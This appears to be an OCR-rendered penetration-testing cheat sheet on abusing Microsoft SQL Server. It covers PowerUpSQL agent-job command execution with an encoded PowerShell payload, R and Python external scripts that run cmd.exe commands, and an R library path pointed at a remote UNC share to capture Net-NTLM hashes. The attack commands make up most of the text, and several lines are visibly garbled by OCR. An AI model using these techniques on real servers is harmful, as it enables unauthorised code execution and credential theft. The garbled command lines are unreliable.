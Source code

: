 ## PowerUpSQL

```
Invoke-SQLOSCmdAgentJob –Subsystem PowerShell -Username
sa -Password pw -Instance instance -Command
"powershell -e <base64encodedscript>" -Verbose
-Subsystem CmdExec
-ubsystem VBScript
-Subsystem Jscript
```

```
Get-SQLAgentJob -Instance instance -username sa -Password pw -Verboe]se
```

# External Scripting

* R introduced in SQL Server 2016
* Python introduced in SQL Server 2017
* Runtime environments must be installed as a prerequisite. Not on by default. Needs SQL server service restart.
* Needs `sysadmin` privileges to be enabled and executed.
* Runs with privileges of a dynamically created Windows user account (member of the `SQLRUserGroup`).

> https://docs.microsoft.com/en-us/sql/advanced-analytics/tutorials/rtsql-using-r-code-in-transact-sql-quickstart

> https://www.slideshare.net/nullbind/beyond-xpcmdshell-owning-the-empire-through-sql-server

Executing commands with R:
```
sp_configure 'external scripts enabled'
GO
EXEC sp_execute_external_script
@language=N'R',
@script=N'OutputDataSet <- data.frame(system("cmd.exe
/c dir",intern=T))'
WITH RESULT SETS (([cmd_out] text));
GO
```

Grab Net-NTLM hashes with R:
```
@script=N'.libPaths("\\\\testhost\\foo\\bar");library("0mgh4x")'
```

Using shell instead of system:
```
@script=N'OutputDataSet <- data.frame(shell("dir",intern=T))'
```
> https://pastebin.com/zBDnzELT

Executing commands with Python:
```
EXEC sp_execute_external_script
@language =N'Python',
@script=N'import subprocess
p = subprocess.Popen("cmd.exe /c whoami",
stdout=subprocess.PIPE)
OutputDataSet = pandas.DataFrame([str(p.stdout.read(),
"utf-8")])'
WITH RESULT SETS (([cmd_out] nvarchar(max)))
Reference:
```
